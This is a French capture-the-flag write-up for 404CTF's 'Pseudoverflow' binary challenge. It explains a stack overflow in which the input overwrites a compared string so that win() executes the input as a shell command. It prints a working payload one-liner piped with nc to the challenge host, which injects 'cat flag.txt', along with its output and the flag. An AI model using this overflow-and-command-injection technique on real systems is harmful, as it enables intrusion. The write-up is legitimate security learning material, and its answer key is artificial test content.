


# Exploitation de Binaire - Pseudoverflow - Introduction 100pts

## Enonce 

Course annuelle

Bienvenue à tous dans la course annuelle du 404CTF : les inscriptions sont ouvertes !! Votre pseudo sera-t-il à la hauteur de nos attentes ?

Objectif: lire le fichier flag.txt
 
Auteur : Narcisse

### Fichiers fournis :

- course : le binaire a exploiter
- challenges.404ctf.fr 31958 : Le point réseau sur lequel se connecter pour obtenir le flag.

## Solution

Le main du binaire est plutôt simple :

Le buffer utilisé pour la saisie utilisateur est fait 106 octets.\
On récupère la saisie utilisateur de manière non sécurisée (fgets).\
Juste après on compare une zone mémoire avec "gagne", si la comparaison réussie on passe à la suite, sinon on affiche un message et on sort.\
La zone mémoire comparée est initialisée au début avec la valeur "perds" . On va donc utiliser la saisie utilisateur pour aller écraser la valeur en mémoire.\

Si on passe la comparaison on va appeler la fonction "win()" :

Cette fonction utilise la saisie utilisateur en tant que paramètre pour effectuer une commande système.

Avec toutes ces informations, notre payload pour valider le challenge devrait ressembler à quelque chose comme ça :

> 'ls\x20-l\x3b'+'\x00'*100+'gagne'

Soit une commande, suivi de null bytes pour le padding, puis le terme 'gagne' pour écraser une valeur dans la stack.

Après plusieurs essais, pour calibrer la taille du padding, la commande suivante permet de récuperer le flag :

> python -c 'print("ls -l;cat flag.txt;\x00"+"A"*86+"\x67\x61\x67\x6e\x65\x00")'| nc challenges.404ctf.fr 31958

>> Bienvenue à la course annuelle du 404CTF!!\
>> Pour pouvoir participer, nous avons besoin de votre pseudo :\
>> total 16\
>> -rwxr-xr-x 1 65534 65534 8640 Apr 19 19:41 course\
>> -rw-rw-rw- 1 65534 65534   16 Apr 19 19:41 flag.txt\
>> 404CTF{0v3rfl0w}

Le fichier *solve.py* permet de solve le challenge en utilisant la librairie "pwntools".

**Flag** : 404CTF{0v3rfl0w}
